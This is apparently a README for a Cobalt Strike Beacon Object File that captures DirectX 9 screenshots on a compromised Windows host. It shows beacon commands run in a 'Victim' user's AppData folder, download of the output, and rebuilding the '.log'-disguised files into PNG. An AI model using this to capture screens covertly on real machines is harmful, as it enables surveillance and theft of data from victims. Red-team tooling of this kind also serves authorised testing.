 # DirectX9-Screenshot-BOF

## Overview

Capture Screenshots with DirectX 9

## Notes

- Export screenshots to the **current working directory** as `.log` files
- Output format: `<width>oo<height>.log`
- Reconstruct `.log` files into PNG format locally

### BOF Execution

Ensure you are in the directory you would like the screenshot exported as. 
```
beacon> cd C:\Users\Victim\AppData\
beacon> screenshot-dx
beacon> download <filename>
```

### Example

![Cobalt Strike Example](/img/cobalt-test.png)

## Image Reconstruction

To reconstruct the image with this script, follow these steps:

1. Install the required packages:
    ```bash
    pip3 install Pillow
    ```

2. Run the script with the desired log file path and output file path:
    ```bash
    python3 assemble.py 2560oo1440.log test.png
    ```

